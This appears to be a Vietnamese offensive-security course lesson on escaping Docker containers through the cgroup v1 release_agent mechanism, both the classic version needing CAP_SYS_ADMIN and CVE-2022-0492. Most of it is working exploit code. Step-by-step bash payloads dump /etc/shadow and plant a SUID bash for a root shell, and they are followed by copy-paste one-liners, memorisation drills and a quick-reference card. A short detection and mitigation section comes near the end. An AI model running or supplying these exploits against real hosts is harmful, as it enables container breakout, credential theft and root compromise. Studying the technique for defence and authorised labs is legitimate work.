

> **Prerequisites**: [[16-namespaces-cgroups|16. Namespaces & cgroups]] · [[17-docker-lxc-security|17. Docker & LXC Security]]
> **Objectives**:
> - Hiểu cơ chế release_agent trong cgroup v1 và tại sao nó là attack surface
> - Thực hiện classic release_agent escape (cần CAP_SYS_ADMIN)
> - Khai thác CVE-2022-0492 — escape không cần CAP_SYS_ADMIN bằng user namespace
> - Xác định điều kiện cgroup v1 vs v2 trước khi thực hiện attack
>
---

## Điều kiện khai thác

> [!note] Classic release_agent escape
> - cgroup v1 đang được dùng (không phải cgroup v2)
> - Container có `CAP_SYS_ADMIN` (privileged container hoặc `--cap-add=SYS_ADMIN`)
> - AppArmor/seccomp không block `mount` syscall
>
> [!note] CVE-2022-0492 (không cần CAP_SYS_ADMIN)
> - cgroup v1 đang được dùng
> - `unshare` syscall không bị block (có thể tạo user namespace)
> - Kernel < 5.17-rc3 (unpatched)
> - Container không dùng seccomp block `unshare`
>
---

## Cơ chế tấn công

### release_agent — Kernel Notification Mechanism

cgroup v1 có một feature: khi tất cả processes trong một cgroup "child group" thoát, kernel có thể chạy một chương trình được chỉ định trong file `release_agent`. Chương trình này chạy trong **host namespace với root privileges**.

```text
cgroup hierarchy (v1):
/sys/fs/cgroup/memory/
├── release_agent     ← path của chương trình cần chạy (host path!)
├── notify_on_release ← 0 = disabled, 1 = enabled
└── docker/
    └── <container_id>/
        ├── notify_on_release  ← kế thừa hoặc override
        └── cgroup.procs       ← PIDs thuộc group này
```

**Attack mechanism:**

```text
1. Mount cgroup v1 controller (hoặc dùng existing mount)
2. Tạo child cgroup: mkdir /cg/x
3. Set notify_on_release = 1 trong /cg/x
4. Set release_agent = /path/evil_script (HOST path của script)
5. Fork process, add PID vào /cg/x/cgroup.procs
6. Kill process → cgroup x trống → kernel gọi evil_script với ROOT!
```

**Điểm then chốt**: `release_agent` là **host path**, nhưng script có thể viết bởi attacker vì OverlayFS của container layer được mount lên host filesystem (accessible qua OverlayFS lower dir).

### Classic Escape (CAP_SYS_ADMIN required)

```bash
# Bước 1: Mount cgroup controller
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp
# Nếu rdma không available: mount -t cgroup -o memory cgroup /tmp/cgrp

mkdir /tmp/cgrp/x

# Bước 2: Bật notify_on_release
echo 1 > /tmp/cgrp/x/notify_on_release

# Bước 3: Tìm host path của container
# OverlayFS "upperdir" là writable layer của container trên host
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "Host writable layer: $host_path"

# Bước 4: Đặt release_agent về script trên host path
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# Bước 5: Tạo payload script
cat > /cmd << 'EOF'
#!/bin/sh
# Chạy với root trong host namespace!
id > /output
cat /etc/shadow >> /output
cp /bin/bash /tmp/escape_bash
chmod 4755 /tmp/escape_bash
EOF
chmod +x /cmd

# Bước 6: Trigger — tạo process trong child cgroup rồi kill
sh -c "echo 0 > /tmp/cgrp/x/cgroup.procs"

# Bước 7: Đọc output
sleep 2
cat /output   # Thấy "uid=0(root)" và shadow hashes
```

### CVE-2022-0492 — Escape Không Cần CAP_SYS_ADMIN

Lỗ hổng: Kernel không kiểm tra capabilities trước khi cho phép ghi vào `release_agent`. Nếu attacker tạo được user namespace riêng (bằng `unshare -UrmC`), họ có `CAP_SYS_ADMIN` trong namespace đó, đủ để mount cgroup và ghi `release_agent`.

```bash
# Bước 1: Tạo user namespace mới (không cần quyền đặc biệt)
unshare -UrmC bash
# → Giờ là root trong user namespace này (mapped từ user thực)

# Bước 2: Mount cgroup v1 trong namespace mới
mkdir /tmp/mountest
mount -t cgroup -o rdma cgroup /tmp/mountest
mkdir /tmp/mountest/x

# Bước 3: Kích hoạt notify_on_release
echo 1 > /tmp/mountest/x/notify_on_release

# Bước 4: Tìm host path qua /etc/mtab
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)

# Bước 5: Set release_agent (BUG: không check caps đúng)
echo "$host_path/cmd" > /tmp/mountest/release_agent

# Bước 6-7: Tạo payload và trigger (giống classic)
echo '#!/bin/sh' > /cmd
echo "cp /bin/bash /tmp/escape; chmod 4755 /tmp/escape" >> /cmd
chmod +x /cmd
sh -c "echo 0 > /tmp/mountest/x/cgroup.procs"
sleep 2
/tmp/escape -p   # SUID escape bash → root
```

---

## Quy trình tấn công

**Môi trường**: Container với `CAP_SYS_ADMIN` (hoặc chạy unpatched kernel < 5.17 cho CVE-2022-0492).

**Bước 1 — Kiểm tra cgroup version và capabilities**

```bash
# Kiểm tra cgroup version:
stat -fc %T /sys/fs/cgroup/
# "tmpfs" → cgroup v1 (có release_agent)
# "cgroup2fs" → cgroup v2 (KHÔNG có release_agent → attack không work)

# Kiểm tra CAP_SYS_ADMIN:
cat /proc/self/status | grep CapEff | \
    python3 -c "import sys; v=int(sys.stdin.read().split()[1],16); print('CAP_SYS_ADMIN: YES' if v&(1<<21) else 'CAP_SYS_ADMIN: NO')"

# Kiểm tra unshare available (cho CVE-2022-0492):
unshare --help 2>/dev/null && echo "unshare available"
```

> **Expected output**: `tmpfs` (cgroup v1) + either `CAP_SYS_ADMIN: YES` hoặc unshare available.
>
**Bước 2 — Find OverlayFS host path**

```bash
# Từ /etc/mtab (method 1):
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1)
echo "Host writable path: $host_path"

# Fallback (method 2) — từ /proc/mounts:
cat /proc/mounts | grep overlay | grep -oP 'upperdir=\K[^,]+'
```

> **Expected output**: Path dạng `/var/lib/docker/overlay2/<hash>/diff`
>
**Bước 3 — Setup và trigger**

```bash
d=$(dirname $(ls -x /s*/fs/c*/*/r* | head -n1))
mkdir -p $d/w
echo 1 > $d/w/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1)
t=$host_path
touch /o
echo "$t/c" > $d/release_agent
printf '#!/bin/sh\nid > %s/o\ncp /bin/bash %s/escape\nchmod 4755 %s/escape' $t $t $t > /c
chmod +x /c
sh -c "echo 0 > $d/w/cgroup.procs"
sleep 2
cat /o          # uid=0(root) → success!
/escape -p      # root shell
```

> **Expected output**: `uid=0(root) gid=0(root)` trong `/o`, sau đó root shell.
>
---

## Biến thể & Bypass

### Khi không biết host path (container filesystem riêng)

```bash
# Method: Dùng /proc/self/exe symlink trick
# /proc/<container_pid>/exe trỏ đến binary đang chạy
# Từ host, path này reveal host path của binary → tính được overlay upper dir

# Hoặc: Kiểm tra environment variable
echo $HOSTNAME   # Docker container ID
# Từ host: docker inspect $HOSTNAME | grep UpperDir
```

### cgroup v2 — Không có release_agent, alternative attack

```bash
# cgroup v2 KHÔNG có release_agent file
# Alternative với CAP_SYS_ADMIN + cgroup v2:
# → Dùng BPF program (Lesson 20)
# → Hoặc privilege escalation via eBPF

stat -fc %T /sys/fs/cgroup/
# "cgroup2fs" → phải dùng technique khác
```

---

## Cây quyết định



---

## Command Cheatsheet

**One-liner check:**

```bash
stat -fc %T /sys/fs/cgroup/ && \
grep CapEff /proc/self/status | awk '{printf "%d\n","0x"$2}' | \
python3 -c "import sys;v=int(sys.stdin.read());print('GO' if v&(1<<21) else 'NO CAP')"
```

**Classic release_agent (copy-paste ready):**

```bash
mkdir /tmp/cg && mount -t cgroup -o memory cgroup /tmp/cg && mkdir /tmp/cg/x
echo 1 > /tmp/cg/x/notify_on_release
T=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1)
echo "$T/cmd" > /tmp/cg/release_agent
printf '#!/bin/sh\ncp /bin/bash %s/b;chmod 4755 %s/b' $T $T > /cmd; chmod +x /cmd
sh -c "echo 0 > /tmp/cg/x/cgroup.procs"; sleep 2; $T/b -p
```

**CVE-2022-0492:**

```bash
unshare -UrmC bash -c "
mkdir /tmp/m && mount -t cgroup -o rdma cgroup /tmp/m && mkdir /tmp/m/x
echo 1 > /tmp/m/x/notify_on_release
T=\$(sed -n 's/.*perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1)
echo \"\$T/cmd\" > /tmp/m/release_agent
printf '#!/bin/sh\ncp /bin/bash %s/b;chmod 4755 %s/b' \$T \$T > /cmd; chmod +x /cmd
sh -c 'echo 0 > /tmp/m/x/cgroup.procs'
"
sleep 2; ls /tmp/b 2>/dev/null && /tmp/b -p
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày.

**Drill 1 — Check conditions**
Mục tiêu: 3 điều kiện (cgroup v1, CAP_SYS_ADMIN, OverlayFS path) trong 1 phút.

Luyện cho đến khi: enumeration 3-step là phản xạ.

**Drill 2 — Classic escape từ nhớ**
Mục tiêu: 6-step exploit không nhìn cheatsheet.

Luyện cho đến khi: flow `mkdir → mount → echo 1 → host_path → release_agent → trigger` gõ ra thuần thục.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **seccomp**: `mount` syscall từ container process → alert
> **Falco**: `evt.type=mount AND container.id!=host` → alert
> **Audit**: ghi vào `release_agent` file → unusual filesystem write
> **Network**: Unexpected outbound connection sau container escape → C2 indicator
>
> [!note] Mitigation
> - Upgrade kernel >= 5.17 (patch CVE-2022-0492)
> - Dùng **cgroup v2** — không có `release_agent` file
> - seccomp block `mount` syscall trong container
> - Không cấp `CAP_SYS_ADMIN` nếu không cần
> - AppArmor/SELinux profile cấm mount operations
> - Sử dụng `--cgroupns=private` khi chạy container
>
---

## Lab Thực hành

| Platform | Challenge/CVE | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB | **Carpediem** (Retired) | CVE-2022-0492 trong real box |
| Local | `docker run --cap-add=SYS_ADMIN` | Luyện classic release_agent |
| TryHackMe | **Container Hardening** | Explain và practice cgroup escape |
| CVE PoC | CVE-2022-0492 PoC trên GitHub | Reproduce trên kernel 5.15 |

---

## Field Manual Entry

> [!abstract] cgroup release_agent Escape — Quick Reference
> **Điều kiện**: cgroup v1 (`stat -fc %T /sys/fs/cgroup/` = tmpfs) + CAP_SYS_ADMIN hoặc CVE-2022-0492
> **Host path**: `sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -1`
> **Setup**: `mkdir cg; mount -t cgroup -o memory cgroup cg; mkdir cg/x`
> **Trigger**: `echo 1 > cg/x/notify_on_release; echo "$T/cmd" > cg/release_agent; echo 0 > cg/x/cgroup.procs`
> **CVE-2022-0492**: `unshare -UrmC bash` → user ns → mount cgroup → same flow
> **Ref**: [[19-cgroup-release-agent-escape|19. cgroup release_agent Escape]]
>